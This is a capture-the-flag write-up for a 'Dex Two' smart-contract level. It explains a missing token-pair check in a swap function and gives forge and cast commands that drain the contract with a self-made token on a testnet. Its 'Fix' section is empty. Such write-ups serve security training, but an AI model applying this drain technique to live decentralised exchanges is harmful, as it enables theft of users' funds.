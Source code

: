 # Dex2

This level requires you to exploit the DexTwo contract, a subtly modified version of the previous Dex contract, in a different manner. Your goal is to drain all balances of token1 and token2 from the DexTwo contract to complete the level.

You begin with 10 tokens each of token1 and token2 and DexTwo contract initially holds 100 tokens each of token1 and token2.

## Vulnerability

We will notice a missing line:

```bash
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

This line is responsible for validating that swapping is only allowed between the two token addresses defined by the contract. Since this requirement is absent in `DexTwo`, we are allowed to swap any tokens, including ones we create. This is the key to draining the`DexTwo` contract.

## Attack

1. Deploy `DeployDex2Attack.sol`.

```bash
forge script script/DeployDex2AttackToken.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# https://sepolia.etherscan.io/address/0x013e688ca8681adD8f2FD9506F7a0be4BB797455

# At $CONTRACT_ADDRESS=0x013e688ca8681adD8f2FD9506F7a0be4BB797455
# balanceOf 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 = 400
```

2. Send 100 BTN from `Dex2AttackToken` to `Dex2`.

```bash
cast send $CONTRACT_ADDRESS "transfer(address,uint256)" $DEX2_ADDRESS 100 --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --legacy

# https://sepolia.etherscan.io/tx/0x5d64c4753a29df9a762497b0e8f44a17b5db5dd24e3c278e4cf10deb7584c4ee

# At $CONTRACT_ADDRESS=0x013e688ca8681adD8f2FD9506F7a0be4BB797455
# balanceOf 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 = 0

# At $DEX2_ADDRESS=0xB7f8a4dBC8bb9bA98878D8D2a74431F6B61a65d2
# balanceOF
# token address (BTN): 0x013e688ca8681adD8f2FD9506F7a0be4BB797455
# Dex2 contract address (DEX2_ADDRESS) : 0xB7f8a4dBC8bb9bA98878D8D2a74431F6B61a65d2
# equals 300
```

3. Approve `Dex2 address` to spend 300 BTN and enable it to perform the swap later.

```bash
cast send $CONTRACT_ADDRESS "approve(address,uint256)" $DEX2_ADDRESS 300 --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy

# https://sepolia.etherscan.io/tx/0x72ddc065dca92c12e5db43a282175a87046d710163e2f942473561fac3472557
```

4. Execute the swap of both tokens.

```bash
forge script script/DeployDex2AttackSwap.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# At $DEX2_ADDRESS=0xB7f8a4dBC8bb9bA98878D8D2a74431F6B61a65d2
# balanceOF
# token address (BTN): 0x013e688ca8681adD8f2FD9506F7a0be4BB797455
# Dex2 contract address (DEX2_ADDRESS) : 0xB7f8a4dBC8bb9bA98878D8D2a74431F6B61a65d2
# equals 300
```

## Fix
